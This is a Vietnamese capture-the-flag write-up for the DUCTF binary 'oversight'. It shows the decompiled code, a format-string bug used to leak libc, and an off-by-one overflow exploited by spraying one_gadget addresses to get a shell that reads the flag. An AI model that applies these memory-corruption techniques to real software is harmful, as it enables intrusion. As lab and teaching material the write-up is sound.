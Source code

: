 # Phân tích file

```python
oversight: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=54a5270099fd4f21b907f0119cf6c9af55b61f74, for GNU/Linux 4.4.0, not stripped
```

```python
		Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

# Reverse file

- Main
    
    ```python
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      setbuf(stdout, 0LL);
      puts("Lets play a game");
      wait();
      return 0;
    }
    ```
    
- Wait
    
    ```python
    __int64 wait()
    {
      unsigned int v0; // eax
      char s[5]; // [rsp+Bh] [rbp-85h] BYREF
      char format[120]; // [rsp+10h] [rbp-80h] BYREF
    
      puts("Press enter to continue");
      getc(stdin);
      printf("Pick a number: ");
      fgets(s, 5, stdin);
      v0 = strtol(s, 0LL, 10);
      snprintf(format, 0x64uLL, "Your magic number is: %%%d$llx\n", v0);
      printf(format);
      return introduce();
    }
    ```
    
    - Yêu cầu ta nhập 1 số rồi sau đó hàm strtol sẽ đưa về cơ số 10 sau đó printf(format) ⇒ format string bug.
- Introduce
    
    ```python
    int introduce()
    {
      puts("Are you ready to echo?");
      get_num_bytes();
      return puts("That was fun!");
    }
    ```
    
- get_num_bytes
    
    ```python
    int get_num_bytes()
    {
      unsigned int v0; // eax
      int result; // eax
      char s[13]; // [rsp+Bh] [rbp-15h] BYREF
    
      printf("How many bytes do you want to read (max 256)? ");
      fgets(s, 5, stdin);
      v0 = strtol(s, 0LL, 10);
      if ( v0 > 0x100 )
        result = puts("Don't break the rules!");
      else
        result = echo(v0);
      return result;
    }
    ```
    
    - Nhập size để read tối đa là 256 bytes.
- echo
    
    ```python
    __int64 __fastcall echo(unsigned int a1)
    {
      char v2[256]; // [rsp+0h] [rbp-100h] BYREF
    
      return echo_inner(v2, a1);
    ```
    
- echo_inner
    
    ```python
    int __fastcall echo_inner(_BYTE *a1, int a2)
    {
      a1[(int)fread(a1, 1uLL, a2, stdin)] = 0;
      puts("You said:");
      return printf("%s", a1);
    }
    ```
    

    

# Exploit

- Ta sẽ dùng bug fmt để leak libc và tính base và tính one_gadget. Sau đó control ret về one_gadget.
    
    ```python
    [*] libc: 0x7ffff79e2000
    [*] one_gadget: 0x7ffff7a313d5
    ```
    
- Tiếp đến ta cần control ret sau khi debug thì mình thấy bug ở get_num_bytes() nếu ta nhập size 256 và nhập "a"*256 thì ở leave ta thấy như sau.
    
    ```python
    RBP  0x7fffffffdf00 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
    RSP  0x7fffffffdf40 ◂— 0xff05df9b
    0x555555555351 <get_num_bytes+81>     leave
    ► 0x555555555352 <get_num_bytes+82>    ret    <0x6161616161616161>
    ```
    
- Ta có thể control được ret nhưng ret có thể nhảy các ô stack nên khó xác định vì thể mính để luôn payload là p64(one_gadget)*32 thì thế nào cũng ret về one_gadget cho mình.

```python
Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc: 0x7f546a610000
[*] one_gadget: 0x7f546a65f3d5
[*] Switching to interactive mode
You said:
ejT\x7f$  cat flag.txt
DUCTF{1_sm@LL_0ver5ight=0v3rFLOW}
```
